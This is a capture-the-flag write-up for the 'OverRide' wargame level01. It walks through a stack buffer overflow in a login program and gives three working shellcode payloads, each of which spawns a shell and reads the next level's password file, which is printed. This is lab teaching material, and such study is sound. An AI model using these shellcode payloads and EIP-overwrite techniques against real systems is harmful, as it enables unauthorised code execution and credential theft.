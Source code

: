 The program starts by asking for a username, which will be checked with the `verify_user_name()` function. This username must be "dat_wil":

```c
bool verify_user_name(void)
{
  puts("verifying username....\n");
  return memcmp(a_user_name, "dat_wil", 7u) != 0;
}

int main(int argc, char** argv, char** envp)
{
		//...
    fgets(&a_user_name, 256, stdin);
    int ret;
    if (verify_user_name() != 0)
    {
        puts("nope, incorrect username...\n");
        ret = 1;
    }
		//...
    return ret;
}
```


Next, the program asks for a password, which is artificially checked with the `verify_user_pass()` function, but it doesn't matter since no matter the result, "nope, incorrect password..." will be displayed:
```c
 bool verify_user_pass(const void *a1)
{
  return memcmp(a1, "admin", 5u) != 0;
}

int main(int argc, char** argv, char** envp)
{
    char buffer[64];
		//...
    else
    {
        puts("Enter Password: ");
        fgets(&buffer, 100, stdin);
        int result = verify_user_pass(&buffer);
        if ((result == 0 || result != 0))
        {
            puts("nope, incorrect password...\n");
            ret = 1;
        }
        if (result == 0)
            ret = 0;
    }
    return ret;
}
```

It can be easily observed that `fgets()` is used to read 100 characters from stdin, while the password buffer is only 64 characters in size. As this buffer is declared at the beginning of main, it seems easy to reach EIP from it.

We can overwrite EIP from an offset of 80:

```
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

The first buffer is in a global outside of main, so at the address: `0x804a040`
```nasm
   0x08048521 <+81>:	movl   $0x804a040,(%esp) ; <== Here is the variable
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>
```

We can do `0x804a040` + 7 to account for the username "dat_wil", so `0x804a047`.
This gives us this payload:
```
(python -c 'print "dat_wil\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'; python -c 'print "A" * 80 + "\x47\xa0\x04\x08"'; cat) | ./level01
```


And here is the flag!
```
level01@OverRide:~$ (python -c 'print "dat_wil\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'; python -c 'print "A" * 80 + "\x47\xa0\x04\x08"'; cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

Since it's all a matter of buffer control once we can overwrite EIP at will, we might as well go through an even simpler second solution with an environment variable:

```
level01@OverRide:~$ export EXPLOIT=$(python -c 'print "\x90" * 100 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
```

It is located at this address:
```nasm
x/150s environ
...
0xffffd874:     "EXPLOIT=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\311\367\341Qh//shh/bin\211\343\260\v̀"
...
x/50x 0xffffd874
0xffffd874:    0x45    0x58    0x50    0x4c    0x4f    0x49    0x54    0x3d
0xffffd87c:    0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd884:    0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd88c:    0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd894:    0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd89c:    0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd8a4:    0x90    0x90
```

Let's try with `0xffffd88c`:
```
level01@OverRide:~$ (python -c 'print "dat_wil"'; python -c 'print  "A" * 80 + "\x8c\xd8\xff\xff"'; cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
```


And here is (again) the flag!
```
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

This technique is ultimately the simplest since it's merely necessary to know how to overwrite EIP to redirect to a buffer which is our env, we might not even need to examine the program's code.

Is that sufficient?

Of course not 🙂

We could also try to place the shellcode directly in the buffer declared in the stack! However, it's important to consider that addresses found in gdb may differ from a normal execution. As example, from gdb, we find the address `0xffffd6cc` to recover the buffer:

```nasm
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>
   0x08048579 <+169>:	lea    0x1c(%esp),%eax
   0x0804857d <+173>:	mov    %eax,(%esp); <=== EAX contains the buffer's address
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
...
Enter Password: 
SALUT

Breakpoint 1, 0x0804857d in main ()
(gdb) x/s $eax
0xffffd6cc:     "SALUT\n"
```

Therefore, it's necessary to verify the exact location during a normal execution of the program, for example with ltrace:

```
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "SALUT\n"') | ltrace ./level01 
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
)      = 39
printf("Enter Username: ")                       = 16
fgets("dat_wil\n", 256, 0xf7fcfac0)              = 0x0804a040
puts("verifying username....\n"Enter Username: verifying username....

)                 = 24
puts("Enter Password: "Enter Password: 
)                         = 17
fgets("SALUT\n", 100, 0xf7fcfac0)                = 0xffffd6ec <===== here
puts("nope, incorrect password...\n"nope, incorrect password...

)            = 29
+++ exited (status 1) +++
```

So, we will place on EIP the address of the start of our second buffer: `0xffffd6ec`

And so here is a 3rd payload:
```
level01@OverRide:~$ (python -c 'print "dat_wil"'; python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "\x90" * 59 + "\xec\xd6\xff\xff"'; cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami	
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```